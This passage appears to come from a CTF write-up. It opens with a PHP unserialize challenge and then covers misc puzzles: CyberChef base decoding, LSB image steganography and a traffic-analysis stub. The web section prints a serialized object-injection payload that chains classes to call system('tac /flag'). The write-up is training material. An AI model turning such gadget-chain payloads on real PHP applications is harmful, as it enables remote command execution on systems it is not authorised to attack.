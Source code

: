 ```php

echo serialize($begin);
?>
```

**Payload:
O:5:"Begin":1:{s:4:"name";O:4:"Then":1:{s:4:"func";O:5:"Super":1:{s:3:"obj";O:6:"Handle":1:{s:3:"obj";O:3:"CTF":1:{s:6:"handle";O:8:"WhiteGod":2:{s:4:"func";s:6:"system";s:3:"var";s:9:"tac /flag";}}}}}}
**


![](https://s2.loli.net/2024/03/08/RAzrUYThCmtSXPx.png)


## misc

### CyberChef's Secret

  base32 58 64


![](https://s2.loli.net/2024/03/08/Ksln7oPb86vAVyW.png)

[cyberchef.org](https://cyberchef.org/)

![](https://s2.loli.net/2024/03/08/9KwfvjNBxZWqYuS.png)

### 机密图片

lsb 隐写



![](https://s2.loli.net/2024/03/08/lSzoZwFBRqmdgPD.png)

扫码没啥消息

stegsolve 发现顶部有字符串

![](https://s2.loli.net/2024/03/08/mjtRuUq2nDAx7by.png)

Data extract

选最低位即可

![](https://s2.loli.net/2024/03/08/Q7hq8zKYOP9ijnI.png)

### 流量！鲨鱼！

流量分析



![](https://s2.loli.net/2024/03/08/W3LMuKFkT7gBRmn.png)
